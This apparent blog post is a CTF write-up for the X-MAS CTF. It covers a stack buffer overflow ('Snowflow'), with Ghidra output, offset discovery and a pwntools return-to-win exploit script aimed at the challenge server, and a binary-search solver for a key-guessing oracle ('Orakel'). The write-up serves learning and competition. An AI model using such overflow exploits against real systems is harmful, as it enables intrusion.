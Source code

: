 ```yaml
---
layout: post
title: XMas CTF
categories: [CTF, Writeup]
---
```

This is my first blog post and I'm writting it a while after the CTF has concluded however I need to start somewhere right? I wasn't able to contribute much to this CTF as I was preparing for finals. However, I did have a great time solving and attempting what I could and it was great to work with other members of redpwn.

### Pwn

#### Snowflow
```
Snow, snow, snow... there is snow everywhere! I'm feeling a little bit overwhelmed... or would I say overflowed?
```

Running a file check on the challenge we see that it is stripped which means there are no debugging symbols.
```
chall: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.  
2, for GNU/Linux 3.2.0, BuildID[sha1]=b96d5da6df4dc39b35bec7a8068b741d24999c3d, stripped
```

My second step was to open the binary in Ghidra. I saw that the main function had a buffer which could be overflowed. 
```
  char local_12 [10];
  
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  puts("Helloooooo, do you like to build snowmen?");
  read(0,local_12,100);
```

Looking at the other functions in the binary, I noticed a function at `0x401156` which contained `puts("X-MAS{REAL FLAG ON THE SERVER}");` Okay, looks like we just need to overflow to run this function which will display for us the real flag on the server. 

The first step was to determine the offset. As this is a 64 bit program, I use cyclic from pwntools and send a 512 length string. I attach GDB so that when it crashes I can look at the registers. For 64 bit pwn, RIP is not actually overflow, so I look at RSP for the offset. 

```
$rsp : 0x00007ffe59e19be8 → "aafaaagaaahaaa
```

I then use cyclic_find from pwntools to identify that the offset is 18. The last step is to add a 64 bit packed address of the function we want to execute which is easy using pwntools. My final solution script looks like this.

```python
from pwn import *  
  
context.terminal = ["tmux", "split", "-h"]  
  
#r = process("./chall")  
  
#gdb.attach(r)  
  
r = remote("challs.xmas.htsp.ro", 12006)  
  
r.recvline()  
  
payload = ""  
  
#payload += cyclic(512)  
# offset is 18  
  
payload += "A" * 18  
  
payload += p64(0x401156)  
  
r.sendline(payload)  
  
r.interactive()
```

### PPC

#### Orakel
```
We have finally linked up with the famous Lapland Oracle, that knows and sees all!
Can you guess his secret word?

Remote server: challs.xmas.htsp.ro 13000
```

When connecting to the server, we see that we are given 1000 opportunities to guess the correct key. After brute spamming characters, I deemed the key length to be around 100 characters. This means our program needs to be quite efficient!

The first algorithm which came to mind was binary search. However, after failing to implementing it multiple  times I still couldn't get it to work. The trick was realizing that at each character, the "score" would firrst decrease, then increase if we went from a - > Z. I found an interesting article on how to find the minimum in such a sequence [here](https://www.geeksforgeeks.org/minimum-in-an-array-which-is-first-decreasing-then-increasing/ "https://www.geeksforgeeks.org/minimum-in-an-array-which-is-first-decreasing-then-increasing/"). 

In my solution, I also chose to optimize the searching by implementing a valueDict array which stored the searched strings for each length and their scores. This is a dynamic programming style approach which stops the program from wasting a search on something we already looked for. My final solution didn't cleanly recieve the flag, so I used `context.log_level = "debug"` to display all sent and recieved text to retrieve the flag. Below is my final solution which got the flag in ~800 attempts.

```python
from pwn import *
from time import sleep
import regex as re
import string

context.log_level = "debug"

r = remote("challs.xmas.htsp.ro", 13000)
r.recvuntil("Luck.")
r.recvline()

bestScore = 99999
attempts = 1

regexp = re.compile(r": (.*)")

def getScore(inpStr):
    global attempts
    attempts += 1
    r.sendline(inpStr)
    inpLine = r.recv()
    score = int(regexp.search(inpLine).group(1))
    return score

valueDict = {}

def getScoreEff(inpStr):
    global valueDict
    if(inpStr in valueDict):
        return valueDict[inpStr]
    else:
        retVal = getScore(inpStr)
        valueDict[inpStr] = retVal
        return retVal

r.sendline("A")
sleep(1)
r.recv()
r.recv()

# Begin search char by char assuming length max is 100

searchSpace = []
foundKey = ""
currScore = 99999

for i in range(65, 122 + 1):
    if i <= 90 or i >= 97:
        searchSpace.append(i)

for i in range(100):
    if currScore < 0:
        break
    # for each char
    low = 0
    high = len(searchSpace) - 1
    mid = 0

    while(low < high):

        mid = low + ((high - low) / 2)

        #print(str(low) + " " + str(mid) + " " + str(high))

        #lowScore = getScoreEff(chr(searchSpace[low]))
        midScore = getScoreEff(foundKey + chr(searchSpace[mid]))
        midScoreRight = getScoreEff(foundKey + chr(searchSpace[mid + 1]))
        #highScore = getScoreEff(chr(searchSpace[high]))

        #print(str(lowScore) + " " + str(midScore) + " " + str(highScore))

        if midScore < midScoreRight:
            high = mid
        else:
            low = mid + 1

    foundKey += chr(searchSpace[low])
    currScore = getScoreEff(foundKey)
    print(foundKey + " with score of: " + str(getScoreEff(foundKey)) + ", attempts: " + str(attempts))
    currScore = getScoreEff(foundKey)
    valueDict.clear()

    #print("Min found at: " + str(searchSpace[mid]) + ", with a value of: " + str(getScore(chr(searchSpace[mid]))))   

r.interactive()
```

## Concluding thoughts

Solving the few problems that I did was great, especially seeing my orakel script crank through the characters and the score lowering as it pressed onward. I do wish I had more time to spend on this CTF as we might have been able to place higher as a team.
